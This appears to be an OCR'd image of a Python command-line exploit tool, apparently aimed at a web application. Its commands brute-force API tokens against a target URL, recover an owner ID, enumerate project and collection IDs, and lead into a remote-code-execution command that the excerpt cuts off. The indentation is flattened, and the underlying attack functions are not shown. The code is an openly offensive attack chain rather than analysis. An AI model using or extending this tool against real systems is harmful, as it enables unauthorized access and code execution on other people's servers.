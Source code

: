 ```python
            click.echo(aes_encode(data))


            @cli.command('dec')
            @click.argument('data', type=str, required=True)
            def cmd_dec(data: str):
            click.echo(aes_decode(data))


            @cli.command('token')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('-c', '--count', type=int, default=5)
            def cmd_token(url, count):
            already = []
            for i in range(count):
            token = brute_token(url, already)
            if not token:
            break

            click.echo(f'find a valid token: {token}')
            already.append(token)


            @cli.command('owner')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('-t', '--token', 'token', type=str, required=True, help='Token that get from first step')
            def cmd_owner(url, token):
            aid = find_owner_uid(url, token)
            e = aes_encode(f'{aid}|{token}')
            click.echo(f'your owner id is: {aid}, encrypted token is {e}')


            @cli.command('project')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('-o', '--owner-id', 'owner', type=str, required=True)
            @click.option('-t', '--token', 'token', type=str, required=True, help='Token that get from first step')
            def cmd_project(url, owner, token):
            token = aes_encode(f'{owner}|{token}')
            project = find_project(url, token)
            if project:
            logger.info('[+] project by this token: %r', project)
            click.echo(f'your project id is: {project["_id"]}')


            @cli.command('col')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('-o', '--owner-id', 'owner', type=str, required=True)
            @click.option('-t', '--token', 'token', type=str, required=True, help='Token that get from first step')
            @click.option('--from', 'brute_from', type=int, required=False, default=1, help='Brute Col id from this number')
            @click.option('--to', 'brute_to', type=int, required=False, default=200, help='Brute Col id to this number')
            def cmd_col(url, owner, token, brute_from, brute_to):
            token = aes_encode(f'{owner}|{token}')
            for i in find_col(url, token, brute_from, brute_to):
            click.echo(f'found a valid col id: {i}')


            @cli.command('rce')
            @click.option('-u', '--url', type=str, required=True)
```